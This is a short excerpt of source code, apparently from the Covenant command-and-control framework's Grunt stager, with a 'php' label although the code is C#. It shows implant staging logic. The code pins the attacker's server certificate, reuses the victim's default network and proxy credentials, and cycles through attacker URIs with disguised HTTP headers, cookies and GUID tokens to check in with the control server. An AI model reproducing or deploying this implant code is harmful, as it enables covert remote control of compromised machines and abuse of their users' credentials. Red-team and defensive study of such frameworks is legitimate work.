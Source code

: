 ```php
                ServicePointManager.ServerCertificateValidationCallback = (sender, cert, chain, errors) =>
                {
                    bool valid = true;
                    if (UseCertPinning && CovenantCertHash != "")
                    {
                        valid = cert.GetCertHashString() == CovenantCertHash;
                    }
                    if (valid && ValidateCert)
                    {
                        valid = errors == System.Net.Security.SslPolicyErrors.None;
                    }
                    return valid;
                };
                string transformedResponse = MessageTransform.Transform(Encoding.UTF8.GetBytes(Stage0Body));
                CookieWebClient wc = null;
                string Stage0Response = "";
                wc = new CookieWebClient();
                wc.UseDefaultCredentials = true;
                wc.Proxy = WebRequest.DefaultWebProxy;
                wc.Proxy.Credentials = CredentialCache.DefaultNetworkCredentials;
                string CovenantURI = "";
                foreach (string uri in CovenantURIs)
                {
                    try
                    {
                        for (int i = 0; i < ProfileHttpHeaderValues.Count; i++)
                        {
                            if (ProfileHttpHeaderNames[i] == "Cookie")
                            {
                                wc.SetCookies(new Uri(uri), ProfileHttpHeaderValues[i].Replace(";", ",").Replace("{GUID}", ""));
                            }
                            else
                            {
                                wc.Headers.Set(ProfileHttpHeaderNames[i].Replace("{GUID}", ""), ProfileHttpHeaderValues[i].Replace("{GUID}", ""));
                            }
                        }
                        wc.DownloadString(uri + ProfileHttpUrls[random.Next(ProfileHttpUrls.Count)].Replace("{GUID}", ""));
                        CovenantURI = uri;
                    }
                    catch
                    {
                        continue;
                    }
                }
                for (int i = 0; i < ProfileHttpHeaderValues.Count; i++)
                {
                    if (ProfileHttpHeaderNames[i] == "Cookie")
                    {
                        wc.SetCookies(new Uri(CovenantURI), ProfileHttpHeaderValues[i].Replace(";", ",").Replace("{GUID}", GUID));
                    }
                    else
                    {
                        wc.Headers.Set(ProfileHttpHeaderNames[i].Replace("{GUID}", GUID), ProfileHttpHeaderValues[i].Replace("{GUID}", GUID));
                    }
                }
```